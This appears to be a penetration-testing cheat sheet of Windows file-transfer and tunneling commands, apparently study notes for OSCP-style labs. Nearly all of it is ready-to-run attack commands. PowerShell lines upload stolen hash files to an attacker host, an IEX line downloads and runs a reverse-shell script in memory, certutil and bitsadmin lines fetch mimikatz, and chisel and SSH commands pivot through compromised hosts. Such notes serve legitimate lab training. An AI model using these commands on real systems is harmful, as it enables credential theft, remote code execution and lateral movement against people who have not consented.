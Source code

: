 ### Start SMB Server
`smbserer.py -smb2support [SHARE_NAME] [SHARE_PATH]`
`smbserver.py -smb2support a .`
`copy \\10.10.14.15\a\file` 

### Powershell to upload to Kali
`powershell (​New​-​Object System​.​Net​.​WebClient​)​.​UploadFile​(​'http://192.168.119.143/upload.php'​, 'C:\Tools\active_directory\hashes'​)`

### Powershell to grab remote file and run it in memory
`powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1');"`

### Powershell Upload to kali - Make sure apache is running and the upload.php is there! 
`powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.143/upload.php', 'asrep_hashes.txt')` 

### Certutil transfer **HIGHLY EFFECTIVE**
`certutil.exe -urlcache -split -f http://192.168.119.143:8000/mimikatz.exe`

### If certutil fails try bitsadmin
`bitsadmin /transfer job /download /priority high http://192.168.49.120:8001/mimikatz.exe c:\\Users\\Administrator\\mimikatz.exe'`

--------------------------------------------
# Tunneling 
### SSH Port forwarding guide
[SSH Tunneling](https://refabr1k.gitbook.io/oscp/info-gathering/ssh/ssh-tunneling)

[Pivoting and Tunneling](https://medium.com/@kuwaitison/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022)

[Tunneling with Chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

### set up ssh port forwarding with compromised user - good if you cannot use chisel 
`sudo ssh -L 80:192.168.120.209:80 <compromised_user>@192.168.120.209` 

### Setting up chisel w/ socks proxy
*On the compromised host that you want to pivot through, proxychains socks5 needs configured* 
`./chisel client 10.10.15.4:8000 R:socks` 
*On Kali* 
`chisel server --socks5 -p 8000 -reverse`

### Proxychains nmap example
`sudo proxychains -q nmap --top-ports=1000 -Pn -sT -v -oA nmap_172.16.1.102 172.16.1.102` 
